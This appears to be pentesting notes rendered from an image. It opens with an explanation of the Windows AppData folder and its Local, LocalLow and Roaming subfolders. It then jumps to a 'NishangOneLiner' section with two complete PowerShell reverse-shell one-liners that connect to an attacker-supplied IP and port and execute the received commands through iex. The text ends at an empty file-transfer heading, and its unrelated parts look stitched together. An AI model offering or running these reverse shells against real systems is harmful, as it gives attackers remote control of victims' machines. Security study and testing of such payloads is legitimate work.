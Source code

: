 ### AppData

That's where AppData comes in. It's a hidden folder that resides under each user folder. It's located in `C:\Users\<username>\AppData` and contains program-specific information that may not relate to the program's ability to run, such as user configurations. In your AppData folder, you will find files like:

-   User-specific installations
-   App configuration files
-   Cached files

If you've ever installed a program that asked you whether you wanted to install it for all users or not, it was basically asking you if you wanted to install it into Program Files or AppData. Python is one such program that does this. Additionally, there are three subfolders in AppData, and their differences are important to note.

- **Local**: The Local folder is for storing files that can't move from your user profile and also often contain files that may be too large to synchronize with a server. For example, it might house some files that are needed for a video game to run or your web browser cache, which are files that may be too large or wouldn't make sense to transfer anywhere else. A developer might also use Local to store information that pertains to file paths on this particular machine. Moving these configuration files to another machine might cause programs to stop working, as the file paths would not match up
- **LocalLow**: LocalLow is very similar to Local, but the "low" in the name refers to a lower level of access granted to the application. For example, a browser in incognito mode may be limited to only accessing the LocalLow folder to prevent it from being able to access the normal user data stored in Local.
- **Roaming**: If you use a Windows machine on a domain (that is, a network of computers with a central domain controller that handles your login), then you might be familiar with the Roaming folder. Files in this folder are synced to other devices if you log in on the same domain since they're considered important for using your device. This could be your web browser favorites and bookmarks, important application settings, and more.

## NishangOneLiner

```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP ATTACKER>',<PORT LISTENER>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
# oppure
$sm=(New-Object Net.Sockets.TCPClient('<IP ATTACKER>',<PORT LISTENER>)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```

## WindowsTransfer

### SMBserver
